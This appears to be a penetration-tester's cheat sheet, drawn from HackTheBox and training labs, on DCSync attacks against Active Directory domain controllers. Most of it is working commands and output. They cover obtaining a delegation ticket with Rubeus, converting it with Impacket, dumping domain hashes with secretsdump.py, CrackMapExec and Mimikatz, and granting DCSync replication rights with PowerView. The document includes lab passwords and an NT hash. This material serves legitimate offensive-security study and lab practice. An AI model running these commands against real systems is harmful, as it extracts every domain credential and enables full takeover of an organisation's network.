 ## # `DC Sync` -

_SYSTEM_, _NT AUTHORITY\NETWORK SERVICE_ and [Microsoft Virtual Accounts](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/service-accounts#bkmk-virtualserviceaccounts) all authenticate on the network as the machine account on domain-joined systems. This is really useful to know as most Windows services on modern versions of Windows will run using a Microsoft Virtual Account by default. The 2 most notable are [IIS](https://support.microsoft.com/en-us/help/4466942/understanding-identities-in-iis) and [MSSQL](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-ver15) there are many more.

Example -

If you are running as the service account for MSSQL, and can authenticate back to the DC over the network as that account, it will be the machine account, for the machine MSSQL is running on, which happens to be the DC. And the machine account for the DC has access to do a DC Sync attack, which is basically telling the DC you’d like copies of all of it’s data.

#### <mark style="background: #3D7EFFA6;">Get Ticket</mark> -

Grab the latest compiled version of Rubeus from [SharpCollection](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/Rubeus.exe).

Use `Rubeus.exe` to first get a fake delegation ticket for the machine account:, use the `tgtdeleg` command :

```powershell
c:\ProgramData>.\rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: Cbjw4zyXsgSFHc11kVL3FnTW4sx6OAQPHk5odmf7Klo=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
<SNIP>
```

Save that base64-encoded ticket to a file, and decode it into a new file :

```bash
nap@parrot$ base64 -d machine.kirbi.b64 > machine.kirbi
```

convert it to ccache format needed by my Linux system with [another Impacket tool](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py), `ticketConverter.py`:

```bash
nap@parrot$ ticketConverter.py machine.kirbi machine.ccache
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```

Set that file to be the `KRB5CCNAME` environment variable so that it is used to authentication on upcoming commands :

```bash
nap@hacky$ export KRB5CCNAME=machine.ccache 
```

Now you can perform DC Sync -

```bash
secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k 
```

```bash
secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
```

```bash
secretsdump.py -k -no-pass g0.flight.htb
```

## # `Via CrackMapExec` -

```bash
crackmapexec smb -dc-ip dc.absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds
```

## # `secretsdump.py` -

secretsdump.py allows you to run DCSync attack from your Kali box, provided you can talk to the DC on TCP 445 and 135 and a high RPC port. This avoids fighting with AV, though it does create network traffic.

Give it just a target string in the format `[username]:[password]@[ip]` :

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

## # `Mimikatz` -

```bash
PS C:\programdata> .\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

## # `Grant Dc Sync rights` -

Check if user has replication rights :

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "studentx") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

Grant Dc Sync rights :

```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName studentx - Rights DCSync -Verbose
```

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
